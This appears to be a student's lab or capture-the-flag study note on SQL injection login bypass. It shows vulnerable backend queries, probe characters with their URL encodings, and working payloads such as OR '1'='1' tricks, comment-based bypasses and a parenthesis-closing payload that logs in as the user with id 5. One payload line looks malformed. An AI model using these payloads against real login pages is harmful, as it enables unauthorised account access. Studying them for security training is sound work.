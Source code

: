 # Subverting Query Logic

## Authentication Bypass

Example of original query at backend.

```sql
SELECT * FROM logins WHERE username='admin' AND password = 'p@ssw0rd';
```

### Test if web is vulnerable to SQLi

| Payload | URL Encoded |
| ------- | ----------- |
| `'`     | `%27`       |
| `"`     | `%22`       |
| `#`     | `%23`       |
| `;`     | `%3B`       |
| `)`     | `%29`       |

> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.

If it's vulnerable it will throw error instead of intended message 'i.e., login failed, authentication failed, etc.'

```sql
SELECT * FROM logins WHERE username=''' AND password = 'something';
```

### Bypass using OR Injection

```sql
SELECT * FROM logins WHERE username='admin' or '1'='1' AND password = 'something';
```

* If username is `admin`\
  `OR`
* If `1=1` return `true` 'which always returns `true`'\
  `AND`
* If password is `something`

#### Assessment

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption><p>vuln to SQLi</p></figcaption></figure>

```sql
SELECT * FROM logins WHERE username=''' AND password = '';
```

**bypass login**

<pre><code><strong># Username
</strong>asdf' or '1'='1
# Password
asdf' or '1'='1
</code></pre>

```sql
SELECT * FROM logins WHERE username='asdf' or '1'='1' AND password = 'asdf' or '1'='1';
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption><p>Bypassed</p></figcaption></figure>

```
# Username
tom' ='1'='1
# Password
anything
```

since the username query is true by it self, the password could be anything and the statement will still be true.

### Bypass using Comments

We can use two types of line comments with MySQL `--` and `#`, in addition to an in-line comment `/**/`

```shell-session
mysql> SELECT username FROM logins; -- Selects usernames from the logins table 

+---------------+
| username      |
+---------------+
| admin         |
| administrator |
| john          |
| tom           |
+---------------+
4 rows in set (0.00 sec)
```

{% hint style="info" %}
if you are inputting your payload in the URL within a browser, a (#) symbol is usually considered as a tag, and will not be passed as part of the URL. In order to use (#) as a comment within a browser, we can use '%23', which is an URL encoded (#) symb
{% endhint %}

```sql
SELECT * FROM logins WHERE username='admin'-- ' AND password = 'something';
```

#### Assessment

Login as the user with the id 5 to get the flag.

Original query

```sql
SELECT * FROM logins WHERE (username=''' AND id > 1) AND password = 'xxx';
```

Payload

```
# Username
adasdfmin') OR id = 5 -- -
```

Final query

<pre class="language-sql"><code class="lang-sql"><strong>SELECT * FROM logins WHERE (username='adasdfmin') OR id = 5 -- -' AND id > 1) AND password = 'xxx';
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (95) (1).png" alt=""><figcaption></figcaption></figure>



























